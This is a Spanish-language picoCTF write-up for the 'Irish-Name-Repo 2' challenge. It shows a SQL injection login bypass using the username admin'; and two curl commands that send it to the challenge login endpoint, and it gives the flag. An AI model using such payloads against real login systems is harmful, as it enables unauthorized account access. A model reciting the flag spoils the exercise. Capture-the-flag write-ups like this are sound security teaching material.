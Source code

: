 ## Objetivo 

There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

---
## Datos de acceso al nivel 

http://jupiter.challenges.picoctf.org:52849

---
## Solución 
Lo primero que tenemos que hacer es entrar al sitio el cual es prácticamente idéntico al anterior Irish-Name-Repo 1 en el apartado de login 

![[Pasted image 20231009202806.png]]
dentro de aquí inspeccionamos la pagina para habilitar un recuadro oculto de la misma forma que el anterior reto 

![[Pasted image 20231009202933.png]]

antes de empezar con la inyección la pagina ya cuenta con un una restricción por lo que si intentamos acceder de la misma forma que el reto anterior aparecerá lo siguiente  

![[Pasted image 20231009203126.png]]

para evitar esto ahora en el apartado de Username debemos colocar lo siguiente 

``` bash
admin';
```

![[Pasted image 20231009203227.png]]

al hacer esto ya no es necesario colocar alguna contraseña ya que el parámetro `admin';` en especial la ultima `;` invalida el campo de la contraseña 

![[Pasted image 20231009203339.png]]

**Resultado Final**
```
picoCTF{m0R3_SQL_plz_fa983901}
```

---
## Notas Adicionales 

Al igual que en el problema anterior también podemos acceder a la contraseña desde la linea de comando con los siguientes comandos, el primero hace uso de una contraseña cualquiera pero como anterior mente se menciono esta no es necesaria por lo que el segundo comando omite la contraseña y aun así al final muestran la llave   

``` bash
curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&password=admin&debug=1"
```

``` bash
curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&debug=1"
```

---
## Referencias 
[SQL Injection (w3schools.com)](https://www.w3schools.com/sql/sql_injection.asp)


